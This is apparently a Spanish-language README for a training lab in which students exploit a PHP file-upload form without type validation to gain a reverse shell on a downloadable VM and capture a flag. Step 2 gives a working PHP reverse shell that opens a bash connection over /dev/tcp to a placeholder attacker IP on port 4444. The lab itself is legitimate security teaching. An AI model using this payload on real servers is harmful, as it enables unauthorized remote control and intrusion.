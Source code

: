 # Reverse Shell en un Servidor Web

En este laboratorio pondrás en práctica el uso de una **shell inversa** para tomar control remoto de un servidor vulnerable. Tu misión es identificar un formulario mal protegido, subir un archivo malicioso y capturar una flag alojada en el sistema. En este laboratorio aprenderás:

- Detección de formularios sin validación de tipo
- Subida de archivos maliciosos
- Ejecución de una reverse shell en PHP
- Toma de control remoto con `netcat`

<how-to-start>
   
## 🌱 Cómo iniciar este laboratorio

Sigue las siguientes instrucciones para comenzar:

1. **Descarga la máquina virtual** desde este [enlace]().
2. **Importa la máquina** en tu gestor de virtualización preferido (VirtualBox, VMware, etc.).
3. Una vez iniciada la máquina, ¡ya puedes comenzar con el laboratorio!
</how-to-start>


## 📄 Instrucciones

El servidor aloja un sitio web desarrollado en PHP, accesible por navegador que tiene un formulario que no valida el tipo de archivo que se sube y es tu responsabilidad preparar una reverse shell funcional y lograr que el servidor se conecte de vuelta a tu máquina.


1. **Explorar el sitio web vulnerable**: Accede a la IP de la máquina desde tu navegador y ubica el formulario de subida de archivos.

2. **Prepara tu reverse shell en PHP**: Crea un archivo llamado `shell.php` con este contenido:

     ```php
     <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'");
     ?>
     ```

   - Reemplaza `TU_IP` por la IP de tu máquina atacante.

3. **Levantar un listener en tu máquina**

4. **Subir la reverse shell al servidor**

5. **Activa la conexión inversa**. Accede desde el navegador. Si todo está bien, recibirás una shell interactiva en tu terminal.


**Recuerda:** estás en un entorno controlado para fines educativos. El conocimiento ético es tu mejor herramienta. Observa, explora y aprende a identificar configuraciones inseguras.

¡Feliz hackeo!
